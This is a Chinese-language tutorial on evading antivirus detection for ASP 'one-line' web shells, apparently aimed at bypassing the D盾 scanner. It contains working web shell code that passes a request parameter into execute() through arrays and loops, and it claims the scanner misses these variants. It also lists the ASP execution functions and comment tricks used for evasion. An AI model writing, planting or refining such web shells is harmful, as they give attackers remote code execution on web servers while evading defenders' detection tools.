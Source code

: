 # 0x00 前言

现在asp不多但是还是有，还是写一篇文章来简单的介绍下asp的免杀吧，相对于php我们的asp还是不够灵活。


# 0x01 目录

1. 数组
2. 函数
3. 加密
4. 注释符
5. 类
6. 字符串操作



# 0x02 了解asp一句话

ASP解释器还有：VBScript

ASP的注释符号 ： `' 、 REM  ` 当然如果你使用vbscript 注释还有`<!-- --> 和// `

ASP的执行函数 : Eval 、 Execute 、ExecuteGlobal




# 0x03 数组

利用数组来免杀，因为我们在php免杀中使用过数组，他的效果还不错，那么我们是否可以利用到asp来，当然答案是肯定的

其中定义数组的方法有多种方式，我们才用最简单方式来看看

```
<%
dim a(5)
a(0)=request("404")
eXecUTe(a(0))
%>

```

简单的数组定义D盾就不认识了，为什么我会想到用数组来绕过，因为我发现函数调用的时候D盾不敏感，包括asp，php等

当然你还可以这样用，加上一点循环语句

```
<%
  dim array(1)
  dim c
  array(1)=request("404")
  for each a in array
    c = a & ""
  next
  execute(c)
%>

```
